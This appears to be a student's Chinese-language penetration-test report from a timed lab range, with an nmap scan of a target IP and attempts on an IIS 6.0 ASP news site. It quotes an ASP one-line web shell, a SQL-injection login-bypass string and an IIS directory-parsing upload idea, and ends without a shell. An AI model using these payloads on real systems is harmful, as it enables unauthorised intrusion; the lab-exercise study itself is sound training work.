 目标

43.139.222.118 

要求

1、渗透时间为2小时，从靶场启动开始计时，2小时后靶场关闭，靶场关闭后可以继续完善渗透报告。
2、按照自己的渗透思路，把渗透当中的关键步骤记录下来，包括搜集到的有用信息、漏洞利用截图、最终成果等，形成简要的渗透文档（doc、docx、pdf、MD）。
3、挖掘指定目标存在的安全漏洞、隐患，获取服务器权限，进行内网渗透。包括不限于数据库、Web应用、中间件、服务器的安全漏洞。
4、根据掌握的网络安全技能，尽可能的找出全部的安全漏洞、安全问题。





## 主机扫描

nmap -sT 43.139.222.118       

Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 15:34 CST
Nmap scan report for 43.139.222.118
Host is up (0.044s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
21/tcp    open     ftp
81/tcp    open     hosts2-ns --fblogs新闻文章系统
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   filtered microsoft-ds
3389/tcp  open     ms-wbt-server
7000/tcp  open     afs3-fileserver
8080/tcp  open     http-proxy
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 6.36 seconds



## 打点

主要尝试81端口web

目录扫描

http://43.139.222.118:81/readnews.asp?id=1 

尝试注入，无果，函数未定义

http://43.139.222.118:81/include/conn.asp 源码没有可能也是连接数据库的文件

http://43.139.222.118:81/1.txt（下载页面11111?）

```
<%eval request("bbk")%>
```

考虑文件包含或是已有🐎？

http://43.139.222.118:81/admin/index.asp 

查询前端文章管理员账户，查询默认密码登录，尝试弱口令， 无果

查询历史漏洞存在万能密码：

```
admin'or+'1

密码随意
```

![image-20230222164623630](C:/Users/11634/AppData/Roaming/Typora/typora-user-images/image-20230222164623630.png)



无法上传文件，创建目录自带添加反斜杠，

服务器版本是iis6.0,结合之前带🐎的1.txt考虑解析漏洞

 可以成功创建xxx.asp目录，考虑iisput上传文件进去-0-

![image-20230222171210796](C:/Users/11634/AppData/Roaming/Typora/typora-user-images/image-20230222171210796.png)

但是这里目录做了限制，没办法将文件直接写进去，协议改名和后台改名都会报错

## 总结

做了一些绕过的尝试，可惜时间到了仍未拿到shell

其他的端口服务也没来细看
